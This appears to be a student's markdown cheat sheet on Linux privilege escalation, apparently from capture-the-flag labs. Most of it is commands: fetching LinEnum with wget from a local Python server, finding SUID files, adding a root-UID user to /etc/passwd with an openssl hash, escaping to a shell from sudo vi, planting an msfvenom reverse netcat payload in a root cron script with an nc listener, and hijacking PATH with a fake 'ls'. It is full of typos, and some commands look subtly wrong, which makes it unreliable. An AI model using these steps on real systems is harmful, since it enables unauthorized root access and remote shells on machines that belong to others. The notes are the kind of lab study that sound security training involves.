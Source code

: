 # Privilage Escalation
- Horizontal Escalation vs Vertical Escalation

#### Uploading a file to the target computer
- There are two ways to get LinEnum on the target machine. The first way, is to go to the directory that you have your local copy of LinEnum stored in, and start a Python web server using **python3 -m http.server 8000** [1]. Then using **wget** on the target machine, and your local IP, you can grab the file from your local machine [2]. Then make the file executable using the command **chmod +x FILENAME.sh**
  - python3 -m http.server 8000 - local machine
    - This starts the listener
  - wget {LOCAL MACHINE IP ADDRESS}:{PORT}/FILENAME.sh - target machine
  - chmode +x FILENAME.sh

- If transferring the file fails
  - copy the file script to a Vi or Nano - save the file with an .sh file extention
  -chmod +x FILENAME.sh

#### Running the script
- travel to the folder containing the file
- ./FILENAME.sh

### Finding SUID/GUID capable files manually
- find / -perm -u=s -type f 2>/dev/null

### Creating a hash password
- openssl passwd -1 -salt [salt] [password]
- adding a new user from an ecalated account
  - FORMAT: username:passwordhash:0:0:root:/root:/bin/bash
  - EXAMPLE(new:123(salted w/'new')): new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
### Modifying the /etc/password file
- use vi /etc/passwd
  - this required looking at a cheetsheet - as vi is not intuitive to use

## Checking privlidges
- everytime you own the box and get root or sper user access run the follwoing to check command access
  - sudo -l
- this can be run to determine what access you have once you gain a foothold
  - sudo vi
    - this opens vi as root
  - :!sh
    - opens a shell in vi

### Explpoiting Crontab
- See all running cron jobs on the machine 
  - cat /etc/crontab
- In this example we had a system process running a script with root user acces every 5 minutes, I created a payload with msfvenom for a reverse shell and tranfered it over to the target machine - and then set up a listener on my own until the allotted time went by and then it autoconnected my reverse shell
- Commands
  - msfvenom -p cmd/unix/reverse_netcat lhost={Local IP} lport=8888 R > myFile.exe
  - set up local server
    - pyhton3 -m http.server 8000 (local)
    - wget {IP}:{port}/filename
  - echo myFile.exe > autoscript.sh
  - nc -lvnp 8888
  - after 5 minutes I recieved a ping - and my shell connected at root

### Path Variables
To check the path to your location
  - echo $PATH
- We can set up a fake file somewhere and then change the route that we want the user to go when they execute a command - in this example a 'script' file is executing the 'ls' comand everytime it is ran
- set up a imitation executable (/tmp) folder is a good locaiton
  - echo '[whatever the command we want to run is]' > [name of the executable we are imitating]
    - EXAMPLE: echo '/bin/bash' > ls
    - set file to executable
      - chmod +x ls
    - change path to the tmp file when to original file is executed *MAke sure to make a note of the original path location to clean up when you are through
      - export PATH=/tmp:$PATH



